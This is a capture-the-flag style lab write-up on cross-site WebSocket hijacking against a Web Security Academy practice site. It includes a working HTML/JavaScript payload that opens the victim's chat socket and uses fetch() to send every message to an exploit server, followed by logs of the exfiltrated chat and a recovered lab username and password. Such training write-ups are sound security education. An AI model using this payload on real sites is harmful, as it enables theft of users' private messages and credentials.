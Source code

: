 
### Cross-site WebSocket hijacking : PRACTITIONER

---

> Heading to the Live Chat page while having BURPSUITE PROXY HTTP history on.

![](./screenshots/lab3-1.png)

> Since we see the WebSocket headers, we can now check the websocket history tab in burpsuite to monitor the communication.
> We also see that there are no CSRF tokens, and that sessions are handled only via cookies.

> Sending some messages while having the websocket history tab open:

![](./screenshots/lab3-2.png)

> We see that for all the messages there is a message sent, and it starts with the `READY` messaage to the server.

![](./screenshots/lab3-3.png)

> If we refresh the chat page, we see that we get the exact same messages, followed by the same `READY` message. This indicates that the first `READY` message is responsible for initiating the conversation.

> Since we have no protection against CSRF, we can create a malicious request that initiates this `READY` message and send it to any client. 
> Since the way user sessions are handled are via the cookies and there is no protection, then when the user clicks on the malicious request, it will perform actions that the user doesn't intend to perform.

> Creating the script that will initiate the websocket and send the `READY` message:

```HTML
<script>
    var ws = new WebSocket('wss://0a22002604df511c8091f455007b0034.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://exploit-0ac700ca04905108807bf39f01b400fc.exploit-server.net/exploit?message='+ event.data);
    };
</script>
```

> We open a websocket to the `chat` page on the vulnerable website.
> We send the `READY` message.
> Then we send the result of any subsequent messages to the exploit server and posts the data there at the end of a message parameter.

> If we upload this script to the exploit server, we wait for a client to click on it. Once a client clicks on it, it uses the client's session cookies and initiates the websocket connection.
> The script then returns all the returned messages to see the entire chat history of that user.

```
10.0.4.81       2023-11-01 12:07:55 +0000 "GET /exploit?message={%22user%22:%22Hal%20Pline%22,%22content%22:%22Hello,%20how%20can%20I%20help?%22} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36"
10.0.4.81       2023-11-01 12:07:55 +0000 "GET /exploit?message={%22user%22:%22You%22,%22content%22:%22I%20forgot%20my%20password%22} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36"
10.0.4.81       2023-11-01 12:07:55 +0000 "GET /exploit?message={%22user%22:%22Hal%20Pline%22,%22content%22:%22No%20problem%20carlos,%20it&apos;s%20o0qwuskszun371tbw9e4%22} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36"
10.0.4.81       2023-11-01 12:07:55 +0000 "GET /exploit?message={%22user%22:%22You%22,%22content%22:%22Thanks,%20I%20hope%20this%20doesn&apos;t%20come%20back%20to%20bite%20me!%22} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36"
10.0.4.81       2023-11-01 12:07:55 +0000 "GET /exploit?message={%22user%22:%22CONNECTED%22,%22content%22:%22--%20Now%20chatting%20with%20Hal%20Pline%20--%22} HTTP/1.1" 200 "user-agent: Mozilla/5.0
```

> We can now see the username and password in one of the sent messages.

`carlos:o0qwuskszun371tbw9e4`

---

